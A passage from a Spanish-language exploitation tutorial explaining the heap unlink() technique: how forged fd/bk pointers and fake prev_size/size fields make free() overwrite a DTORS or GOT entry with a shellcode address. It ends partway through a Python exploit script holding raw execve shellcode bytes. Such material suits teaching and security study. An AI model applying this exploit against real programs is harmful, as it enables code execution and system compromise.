 Los trozos libres están en una lista doblemente enlazada \(bin\) y nunca pueden haber dos trozos libres juntos \(se juntan\)

En “size” hay bits para indicar: Si el trozo anterior está en uso, si el trozo ha sido asignado mediante mmap\(\) y si el trozo pertenece al arena primario.

Si al liberar un trozo alguno de los contiguos se encuentra libre , estos se fusionan mediante la macro unlink\(\) y se pasa el nuevo trozo más grande a frontlink\(\) para que le inserte el bin adecuado.

unlink\(\){  
BK = P-&gt;bk; —&gt; El BK del nuevo chunk es el que tuviese el que ya estaba libre antes  
FD = P-&gt;fd; —&gt; El FD del nuevo chunk es el que tuviese el que ya estaba libre antes  
FD-&gt;bk = BK; —&gt; El BK del siguiente chunk apunta al nuevo chunk  
BK-&gt;fd = FD; —&gt; El FD del anterior chunk apunta al nuevo chunk  
}

Por lo tanto si conseguimos modificar el P-&gt;bk con la dirección de un shellcode y el P-&gt;fd con la dirección a una entrada en la GOT o DTORS menos 12 se logra:

BK = P-&gt;bk = &shellcode  
FD = P-&gt;fd = &\_\_dtor\_end\_\_ - 12  
FD-&gt;bk = BK -&gt; \*\(\(&\_\_dtor\_end\_\_ - 12\) + 12\) = &shellcode

Y así se se ejecuta al salir del programa la shellcode.

Además, la 4º sentencia de unlink\(\) escribe algo y la shellcode tiene que estar reparada para esto:

BK-&gt;fd = FD -&gt; \*\(&shellcode + 8\) = \(&\_\_dtor\_end\_\_ - 12\) —&gt; Esto provoca la escritura de 4 bytes a partir del 8º byte de la shellcode, por lo que la primera instrucción de la shellcode debe ser un jmp para saltar esto y caer en unos nops que lleven al resto de la shellcode.

Por lo tanto el exploit se crea:

En el buffer1 metemos la shellcode comenzando por un jmp para que caiga en los nops o en el resto de la shellcode.

Después de la shell code metemos relleno hasta llegar al campo prev\_size y size del siguiente trozo. En estos sitios metemos 0xfffffff0 \(de forma que se sobrescrita el prev\_size para que tenga el bit que dice que está libre\) y “-4“\(0xfffffffc\) en el size \(para que cuando compruebe en el 3º trozo si el 2º estaba libre en realidad vaya al prev\_size modificado que le dirá que s´está libre\) -&gt; Así cuando free\(\) investigue irá al size del 3º pero en realidad irá al 2º - 4 y pensará que el 2º trozo está libre. Y entonces llamará a **unlink\(\)**.

Al llamar a unlink\(\) usará como P-&gt;fd los primeros datos del 2º trozo por lo que ahí se meterá la dirección que se quieres sobreescribir - 12\(pues en FD-&gt;bk le sumará 12 a la dirección guardada en FD\) . Y en esa dirección introducirá la segunda dirección que encuentre en el 2º trozo, que nos interesará que sea la dirección a la shellcode\(P-&gt;bk falso\).

**from struct import \***

**import os**

**shellcode = "\xeb\x0caaaabbbbcccc" \#jm 12 + 12bytes de relleno**

**shellcode += "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b" \**

**"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd" \**
